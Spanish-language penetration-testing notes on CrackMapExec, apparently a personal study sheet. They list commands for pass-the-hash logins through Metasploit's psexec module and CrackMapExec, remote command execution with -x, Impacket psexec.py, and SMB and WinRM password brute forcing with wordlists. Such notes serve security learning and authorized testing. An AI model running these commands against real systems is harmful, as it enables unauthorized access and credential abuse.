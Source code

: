 # Crackmapexec

Propietario: Adrian Gisbert Cabello

Para conectarnos mediante una sesión meterpreter con la técnica Pass-The-Hash Attack, y así pivotar a otro usuario sin tener credenciales en texto plano pero si en formato hash, abrimos metasploit y buscamos `search psexec`, y usamos el módulo `use exploit/windows/smb/psexec`

`set SMBUser Administrator`

`set SMBPass aadjrkv3fgdsjjkdbk584gd:e3cf5g89rtdsdfg5t5h5` (Password HASH)

`set target Command` (Para ver todos los targets `set target`) podemos usar `set target Native \upload` para subir un payload

Si queremos conectarnos a través de crackmapexec con el password hash: `crackmapexec smb 192.168.X.X -u Administrator -H ¨HASH¨`

Podemos ejecutar comandos con el parámetro -x: `crackmapexec smb 192.168.X.X -u Administrator -H ¨HASH¨` `-x ¨ipconfig¨`

Para entrar mediante fuerza bruta a través de smb podemos usar crackmapexec:

`crackmapexec smb 10.0.2.4 -u credentials.txt -p credentials.txt --continue-on-success`

La mejor manera para logearse por SMB es usando la herramienta ***psexec***, podemos hacerlo a través de terminal o a través de metasploit:

- A través de terminal:
    
    Localizamos la ruta del archivo [***psexec.py***](http://psexec.py) con el comando ***locate*** → `locate psexec.py` → una vez encontrado lo ejecutamos `/usr/share/doc/python3-impacket/examples/psexec.py (A/a)dministrator@192.168.X.X` Donde el administrator, podemos poner cualquier usuario → ponemos la contraseña
    
- A través de metasploit:
    
    Ejecutamos metasploit y buscamos:		`search psexec type:exploit`		→		con el `show options` rellenamos los parámetros que nos pida el exploit
    

Para hacer un ataque de fuerza bruta a winrm: `crackmapexec winrm 192.168.X.X -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`